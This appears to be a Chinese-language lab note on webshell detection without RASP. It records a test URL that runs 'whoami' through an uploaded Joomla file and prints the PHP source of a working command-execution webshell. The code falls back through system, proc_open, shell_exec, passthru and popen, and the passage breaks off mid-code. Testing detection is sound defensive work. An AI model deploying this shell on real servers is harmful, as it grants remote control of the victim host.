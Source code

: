 


### webshell检测（未开启Rasp）

#### 1.php

```php
# password : h
# url:http://10.95.58.17/Joomla/uploadComponents/upload/1.php?h=whoami
```

执行结果:

![](webshell原理.assets/1.png)

```php
<?php 
    $c=$_REQUEST["h"];
	@set_time_limit(0);
	@ignore_user_abort(1);
	@ini_set('max_execution_time',0);
	$z=@ini_get('disable_functions');
	if(!empty($z)){
    	$z=preg_replace('/[, ]+/',',',$z);
    	$z=explode(',',$z);$z=array_map('trim',$z);
	}else{
    	$z=array();
	}
	$c = $c." 2>&1\n";
	function f($n){
    	global $z;
    	return is_callable($n)and!in_array($n,$z);
	}
	if(f('system')){
    	ob_start();
    	system($c);
    	$w=ob_get_contents();
    	ob_end_clean();
	}elseif(f('proc_open')){
    	$y=proc_open($c,array(array(pipe,r),array(pipe,w),array(pipe,w)),$t);
    	$w=NULL;
    	while(!feof($t[1])){
        	$w.=fread($t[1],512);
    	}
    	@proc_close($y);
	}elseif(f('shell_exec')){
    	$w=shell_exec($c);
	}elseif(f('passthru')){
    	ob_start();
    	passthru($c);
    	$w=ob_get_contents();
    	ob_end_clean();
	}elseif(f('popen')){
    	$x=popen($c,r);
    	$w=NULL;
    	if(is_resource($x)){
        	while(!feof($x)){
            	$w.=fread($x,512);
        	}
    	}
```